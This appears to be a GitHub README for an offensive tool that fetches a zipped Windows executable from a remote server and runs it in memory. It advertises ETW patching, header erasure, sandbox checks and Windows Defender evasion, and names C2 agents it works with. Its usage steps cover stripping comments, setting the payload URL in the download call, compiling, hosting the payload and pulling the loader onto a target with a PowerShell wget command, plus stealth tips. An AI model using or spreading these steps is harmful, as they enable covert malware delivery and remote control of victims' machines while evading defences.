 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader tool enables direct in-memory execution of a x64 PE file (exe embeded in a zip file) retrieved from a remote web server.
It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Downloads, decompresses, and executes in-memory a remote x64 PE) 
- ETW bypass in user-mode (patching EtwEventWrite functions)
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...


#### USAGE
- STEP 1 - Modify the source code by removing all comments and 'printf' statements, etc. Then, add into the main() function the URL of your ZIP file embeding the offensive security tool that you want to execute.
```
Edit the main() function - Examples:
 - BYTE *zipData = DownloadZipToMemory("http://Your-IP-address/file.zip", &zipSize);
   or
 - BYTE *zipData = DownloadZipToMemory("https://website/file.zip", &zipSize);
```

- STEP 2 - Compile the source code (for example with Visual Studio 2022 Developer Command Prompt v17.14.14).  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example:
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe Icon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
```
Examples:
- http://XX.XX.XX.XX:8080/file.zip
- http://XX.XX.XX.XX/file.zip
- https://your.website/file.zip
```
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and use it to download, unzip and execute in-memory your remote compressed offensive security tool
```
1. Download the loader
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe

2. Run the loader with the arguments to pass to the PE
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
	or
2.bis Run the loader without argument
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth beacause the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


